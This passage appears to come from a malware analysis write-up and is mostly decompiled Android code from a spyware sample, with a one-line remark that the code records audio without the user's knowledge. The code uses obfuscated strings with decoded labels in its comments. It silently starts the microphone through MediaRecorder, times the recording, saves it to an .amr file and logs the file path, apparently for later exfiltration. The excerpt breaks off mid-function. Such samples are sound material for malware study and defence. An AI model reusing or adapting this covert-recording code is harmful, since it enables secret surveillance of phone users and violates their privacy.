 The malware has the ability to record audio without the knowledge of the user. 

```cs
protected void onHandleIntent(Intent intent0) {
        try {  // tick
            int v = Integer.parseInt(intent0.getStringExtra(this.a("ZmNkMTNmYWY=")));  // tick
            String s = intent0.getStringExtra(this.a("ZTZkOTMxYTE="));  // name
            if(v > 0 || v == -1) {
                String s1 = new SimpleDateFormat(this.a("YzVmNTcxYTBkYTdiNzgyY2IwYjUyNDdiNzY3Mzc2YzJlZmNiOTE="), Locale.US).format(Calendar.getInstance().getTime());  // MM-dd-yyyy_HH:mm:ss
                this.d = this.getExternalFilesDir(null) + (this.a("YTc=") + s + this.a("ZDc=") + s1 + this.a("YTZkOTMxYjY="));  // .amr
                                                                                                                                // _
                                                                                                                                // /
                this.b.a(this.a("Y2VmMTEwODE5ZTA0NDQxNg=="), this.d);  // FILE REC
                this.b.a(this.a("ZGNkMTMxYTE="), String.valueOf(v));  // Time
                String s2 = this.d;
                MediaRecorder mediaRecorder0 = new MediaRecorder();
                this.b.a(this.a("ZGJmNzA5OGFmYQ=="), this.a("ZGJlYzFkOTZlYTc2NTMxMDhhODMyOTc3MWUxYTU0ZmE5YmZj"));  // START RECORD SOUND
                                                                                                                   // SOUND
                this.a = false;
                mediaRecorder0.setAudioSource(1);
                mediaRecorder0.setOutputFormat(3);
                mediaRecorder0.setAudioEncoder(1);
                mediaRecorder0.setOutputFile(s2);
                Thread thread0 = new Thread(new Runnable() {
                    @Override
                    public final void run() {
                        try {
                            if(v == -1) {
                                Thread.sleep(900000L);
                            }
                            else {
                                Thread.sleep(v * 1000);
                            }
                        }
                        catch(InterruptedException unused_ex) {
                            izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                          // SOUND
                            try {
                                mediaRecorder0.stop();
                                mediaRecorder0.release();
                                izyiyumk.this.b.a(izyiyumk.this.a("Y2VmMTEwODE="), s2);  // FILE
                                String s = izyiyumk.this.b.j(this, izyiyumk.this.c.ba);
                                izyiyumk.this.b.e(this, izyiyumk.this.c.ba, s + izyiyumk.this.a("YWI5Yjdm") + s2);  // ###
                                if(v == -1) {
                                    if(izyiyumk.this.b.j(this, izyiyumk.this.c.aZ).equals(izyiyumk.this.a("Yjk="))) {  // 1
                                        Intent intent0 = new Intent(this, izyiyumk.class).putExtra(izyiyumk.this.a("ZmNkMTNmYWY="), izyiyumk.this.a("YTU4OQ==")).putExtra(izyiyumk.this.a("ZTZkOTMxYTE="), izyiyumk.this.a("ZmFkZDNmYWJjYzMyNWUzNGJjYTgxMjVj"));  // record_audio
                                                                                                                                                                                                                                                                  // name
                                                                                                                                                                                                                                                                  // -1
```